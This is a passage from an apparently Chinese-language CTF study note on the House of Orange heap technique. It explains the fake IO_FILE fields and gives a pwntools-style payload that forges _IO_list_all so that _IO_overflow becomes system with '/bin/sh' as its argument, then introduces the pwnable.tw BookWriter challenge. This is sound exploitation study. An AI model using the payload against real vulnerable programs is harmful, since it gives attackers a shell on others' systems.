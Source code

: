     所以：
    
    `fp->_mode = 0`，`fp->_IO_write_base = (char *) 2` 和 `fp->_IO_write_ptr = (char *) 3`
    
    (`fp->_IO_write_base` 比`fp->_IO_write_ptr` 小即可）
    
- **将`vtable`中的`_IO_overflow`函数地址改成`system`地址即可**，而这个函数的第一个参数就是IO_FILE结构体的地址，因此我们让IO_FILE结构体中的flags成员为/bin/sh字符串，

所以一般对_IO_list_all的构造：

```c
    # FSOP
    orange = b'/bin/sh\x00' + p64(0x61)             # _IO_list_all
    orange += p64(0) + p64(_IO_list_all - 0x10)     
    orange += p64(0) + p64(1)                       # _IO_write_base < _IO_write_ptr 
    orange = orange.ljust(0xc0, b'\x00')            
    orange += p64(0) * 3                            # mode 
    orange += p64(heap_base + 0x5E8)                # vtable,其中0x5E8只是：0x510+0xc0+0x18
    orange += p64(0) * 2 + p64(system_addr) 
```

将这个伪造至在`unsorted bin`中的那个chunk上，一旦发生malloc就会直接导致chunk进入small bin，这样也会导致直接可以进行

# 例题

## pwnable.tw：**BookWriter**

pwnable好像也是比较出名的靶场，以后可以做做

这也是一个house of orange，使用起来其实和上一道题一样，但是也是算是我自己实现的House of Orange

### ida_pro 反汇编

![Untitled](pwnable1.png)
